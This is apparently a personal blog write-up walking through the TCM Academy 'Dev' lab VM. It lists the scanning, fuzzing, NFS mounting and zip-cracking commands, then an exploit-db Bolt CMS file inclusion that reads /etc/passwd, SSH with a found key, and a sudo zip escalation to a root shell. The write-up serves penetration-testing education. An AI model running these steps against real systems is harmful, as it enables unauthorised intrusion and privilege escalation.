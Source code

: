 ## Welcome to my Ethical Hacking blogs
[Link](https://github.com/TheMaster-2/EthicalHackingWriteUps/blob/gh-pages/docs/Dev.md)



Machine 1
Dev by TCM Academy

This is my first write up

This Vulnerable by design VM is provided by TCM Academy as part of the Practical Ethical Hacking - The Complete Course

I had to change Network cards to NAT, also for some reason this VM was dual honed, however, this is not relevant. 

When the VM booted, I had to log in and run DHclient (creds are provided in a text file by TCM)
```markdown
DHClient
```


I then ran Netdiscover to get target IP, (for me).
```markdown
sudo netdiscover -r 192.168.22.0/24
```
I find my target VM

192.168.22.136

Next step is to run NMAP

```markdown
sudo nmap -A -p- -T4 192.168.22.136
```

![image](https://user-images.githubusercontent.com/66864342/160243024-f237bfba-81e5-4266-8bd8-12e3805577fa.png)
![image](https://user-images.githubusercontent.com/66864342/160243035-fb8b2c2a-664a-43e4-8244-7aba436d9488.png)

Interesting ports and info

- 22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
- _http-server-header: Apache/2.4.38 (Debian)
- _http-title: Bolt - Installation error
- 111/tcp   open  rpcbind  2-4 (RPC #100000)
- 2049/tcp  open  nfs_acl  3 (RPC #100227)
- 8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
-	_http-server-header: Apache/2.4.38 (Debian)
-	_Methods supported:CONNECTION
-	_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
- Running Linux 4.X 5.X
- OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
- OS details: Linux 4.15 - 5.6
- Network Distance: 1 hop
- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel!

Browse to port http://192.168.22.136:80

Default webpage bolt installation error?

![image](https://user-images.githubusercontent.com/66864342/160243232-38f450e6-66ee-4140-946f-4cf00e9c9f08.png)


I browsed to http://192.168.22.136:8080
Discovered PHP settings


![image](https://user-images.githubusercontent.com/66864342/160243472-26a386e7-8ee1-4766-9c42-a8b12c983547.png)


Then I ran FFUF to parse web folders in two tabs

```markdown
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136/FUZZ
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136:8080/FUZZ
```

So, then I checked NFS
```markdown
Showmount -e 192.168.22.136 for nfs
```

mkdir in mnt i called it nfs

```markdown
cd mnt
mkdir nfs
sudo mount -t nfs 192.168.22.136:/srv/nfs /mnt/nfs -o nolock
```

In nfs folder I found a file called save.zip


![image](https://user-images.githubusercontent.com/66864342/160244210-cb28624a-b755-4284-8f4d-2ebd4efa4ec8.png)


However the file is password protected. so I tried fcrack!

```markdown
Fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt
```

info
-v=verbose -u=unzip -D=dictionary -p=file


password is java101

I extract 2 files

![image](https://user-images.githubusercontent.com/66864342/160245066-0cf3a05e-29cc-4093-b373-11ca7aaca0b5.png)


Ok so then I cat both files

![image](https://user-images.githubusercontent.com/66864342/160245036-adf5e998-18cb-40ca-a990-ea3f22476fa8.png)

the id_rsa is a certificate file


I discovered the following web folders


![image](https://user-images.githubusercontent.com/66864342/160243845-7911f7ae-a700-4cbd-991a-4e48fd81a3cb.png)


Opened config.yaml and we Find a username & password


![image](https://user-images.githubusercontent.com/66864342/160244148-5dcb3f37-b215-47f1-9b77-6e9fafc0847c.png)



I went back to port 80 tp see what bolt is...

After Googling, it seems to be a CMS, I also find an exploit for a local file inclusion

https://www.exploit-db.com/exploits/48411


![image](https://user-images.githubusercontent.com/66864342/160244458-e91cdcf8-2f4c-4af6-a7f5-ccf99d837cba.png)

Run the exploit after registering an account

![image](https://user-images.githubusercontent.com/66864342/160244777-797f3760-e6d2-49ec-8f19-708e976adc1a.png)



![image](https://user-images.githubusercontent.com/66864342/160244472-ad6caaa5-1ec9-4a8f-8411-53bf70e56edf.png)


The one of interest to me is the user 1000 permission futher down the list

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash


![image](https://user-images.githubusercontent.com/66864342/160244492-f39e6c95-d357-4250-a950-21da05052723.png)

Ok so then I  tried logging in as jeanpaul with a password (this didnt work, so used SSH -i id_rsa - I also had to change permission on file to 400

```markdown
ssh -i id_rsa jeanpaul@192.168.22.136
```

```markdown
sudo -l
```
   (root) NOPASSWD: /usr/bin/zip
   
So the above means I can run zip as root

So goto GTFOBINS

https://gtfobins.github.io/

search for ZIP, and get the sudo one

I typed commands one line at a time

```markdown
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

![image](https://user-images.githubusercontent.com/66864342/160245568-96c1fe61-2516-4811-b792-0358998ad105.png)



BOOM JOB DONE!
Thanks to TCM Academy for the VM





